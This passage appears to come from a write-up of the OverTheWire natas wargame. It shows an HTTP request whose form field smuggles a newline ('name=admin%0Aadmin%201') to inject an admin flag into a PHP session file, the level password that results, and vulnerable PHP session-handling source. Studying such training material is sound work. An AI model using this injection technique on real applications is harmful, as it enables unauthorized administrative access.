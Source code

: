 ```text
Cookie: __cfduid=dc2e23c92b1d237ff6fcd21eeaace26841568619071; __utma=176859643.1037695426.1568619071.1568619071.1568619071.1; __utmz=176859643.1568619071.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none); PHPSESSID=sess
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

name=admin%0Aadmin%201
```

After running this port request a session file for `PHPSESSID=sess` has been created with the extra admin 1 value. If we load this PHPSESSID we will pass the admin check.

```text
You are an admin. The credentials for the next level are:<br><pre>Username: natas21
Password: IFekPyrQXftziDEsUr3x21sYuahypdgJ</pre>
```

### natas22

```php
<?

function print_credentials() { /* {{{ */
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas22\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas22.";
    }
}
/* }}} */

session_start();
print_credentials();

?>
```

```php
<?

session_start();

// if update was submitted, store it
if(array_key_exists("submit", $_REQUEST)) {
    foreach($_REQUEST as $key => $val) {
    $_SESSION[$key] = $val;
    }
}

if(array_key_exists("debug", $_GET)) {
    print "[DEBUG] Session contents:<br>";
    print_r($_SESSION);
}

// only allow these keys
$validkeys = array("align" => "center", "fontsize" => "100%", "bgcolor" => "yellow");
$form = "";

$form .= '<form action="index.php" method="POST">';
foreach($validkeys as $key => $defval) {
    $val = $defval;
```